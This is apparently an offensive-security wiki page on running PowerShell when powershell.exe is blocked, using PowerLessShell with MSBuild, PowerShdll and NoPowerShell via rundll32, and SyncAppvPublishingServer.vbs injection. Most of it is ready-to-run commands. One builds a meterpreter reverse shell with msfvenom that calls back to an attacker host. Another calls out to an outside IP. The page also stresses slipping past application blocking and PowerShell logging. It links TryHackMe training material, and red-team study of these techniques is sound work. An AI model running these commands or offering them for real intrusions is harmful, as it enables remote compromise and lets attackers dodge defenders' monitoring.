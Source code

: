 # Powershell Without Powershell.exe

## Theory

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it. If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## Practice

{% tabs %}
{% tab title="PowerLessShell" %}
[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git) is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

```bash
#Generate a malisious powershell script
v4resk@kali$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1

#Generate a .csproj with PowerLessShell
v4resk@kali$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj

#Execute it on the target with MSBuild.exe
C:\Users\thm> c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```
{% endtab %}

{% tab title="PowerShdll" %}
We can load [PowerShdll](https://github.com/p3nt4/PowerShdll) with rundll32.exe to gain a shell

```bash
C:\Users\v4resk> rundll32.exe PowerShdll.dll,main
```
{% endtab %}

{% tab title="SyncAppvPublishingServer" %}
Windows 10 comes with SyncAppvPublishingServer.exe and SyncAppvPublishingServer.vbs that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```bash
C:\Users\v4resk> SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```
{% endtab %}

{% tab title="NoPowershell" %}
[NoPowerShell](https://github.com/bitsadmin/nopowershell) is a tool implemented in C# which supports executing PowerShell-like commands while remaining invisible to any PowerShell logging mechanisms.

This .NET Framework 2 compatible binary can be loaded in Cobalt Strike to execute commands in-memory. No `System.Management.Automation.dll` is used; only native .NET libraries. An alternative usecase for NoPowerShell is to launch it as a DLL via rundll32.exe:&#x20;

```powershell
C:\Users\v4resk> rundll32 NoPowerShell.dll,main
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/powershell-without-powershell" %}
